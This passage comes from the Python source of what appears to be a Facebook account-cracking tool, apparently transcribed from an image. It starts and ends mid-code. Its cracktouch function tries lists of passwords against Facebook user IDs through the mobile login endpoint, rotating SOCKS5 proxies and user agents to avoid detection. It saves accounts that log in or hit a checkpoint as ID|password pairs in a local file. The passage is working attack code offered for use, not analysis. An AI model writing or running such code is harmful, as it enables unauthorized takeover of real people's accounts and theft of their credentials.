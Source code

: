 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

#---------------------[ METHODE-TOUCH-3 ]---------------------#
def cracktouch(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	sys.stdout.write('\r%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	for pw in pwv:
		try:
			ses.headers.update({'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://touch.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://touch.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://touch.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://touch.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://touch.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[â€¢] ID       : {idf} [â€¢] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='AOREC-XD CP'))
					open('/sdcard/4MBF-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				else:continue
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}
				if 'no' in taplikasi:
					coki=po.cookies.get_dict()